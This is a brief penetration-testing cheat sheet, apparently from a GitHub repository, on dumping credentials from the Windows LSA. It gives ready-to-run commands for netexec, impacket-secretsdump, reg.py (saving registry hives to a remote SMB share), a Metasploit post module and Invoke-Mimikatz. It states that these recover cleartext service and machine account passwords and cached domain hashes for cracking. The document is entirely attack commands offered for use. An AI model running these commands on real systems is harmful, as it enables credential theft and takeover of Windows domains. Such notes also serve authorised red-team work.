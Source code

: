 # Extract Credentials from LSA

## Tools: CrackMpaExec/Netexec , impacket-secretsdump , reg.py

#### 1) CrackMapExec/Netexec

    netexec smb IP_RANGE -u USER -p 'PASSWORD' --lsa

#### 2) Impacket-secretsdump

    impacket-secretsdump DOMAIN/USER:PASSWORD@IP

#### 3) reg.py 

    reg.py DOMAIN/USER:PASSWORD@IP backup -o '\\SMB_IP\share'

    impacket-secretsdump -security SECURITY_FILE -system SYSTEM_FILE LOCAL

#### 4) Metasploit

    use post/windows/gather/lsa_secrets

#### 5) Mimikatz

    Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'

### With dumping LSA, we dump cleartext credentals for service and machine accounts as well as Cache domain logon (MsCache 2) hashes to crack

